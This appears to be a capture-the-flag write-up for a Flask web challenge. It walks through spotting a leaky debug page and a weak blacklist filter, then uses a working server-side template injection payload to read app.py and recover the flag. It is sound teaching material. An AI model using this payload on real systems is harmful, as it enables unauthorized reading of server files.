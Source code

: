 # Some Chemistry - Web

### Points : #
### Solved : #

###### Files :
None

######  Hints
None

---


# Walkthrough

After clicking on the link provided in the description of the challenge, the page just asks us to wait for a transaction to be terminated in order to get the flag from this flask.

Once we try to play around the url, we easily hit an error page since the debug mode has been activated in which we can see the following code block.

```
    def secure(s):
        s = s.replace('(', ' (').replace(')', ')')
 
        blacklist = ['config','self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist])+s
    if(flask.render_template_string(secure(index))=='None'):
        return 'Nice Try !!'
    else:
```

TaDa! It's all about template Injection. Any input that we submit as a suffix to the url may be rendered as a template if we add the curly braces.



We just throw in the following in order to retrieve the content of *app.py*

_{{''.__class__.__mro__[2].__subclasses__()[40]('/app/app.py').read()}}_

```
http://149.56.110.180:5000/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('/app/app.py').read()%20%7D%7D
```

Result :

```
app = flask.Flask(__name__)
app.config['FL44G'] = 'HZVII{n0t_S3cure_fl4sK_4pp}'
```


## Flag

HZVII{n0t\_S3cure\_fl4sK\_4pp}



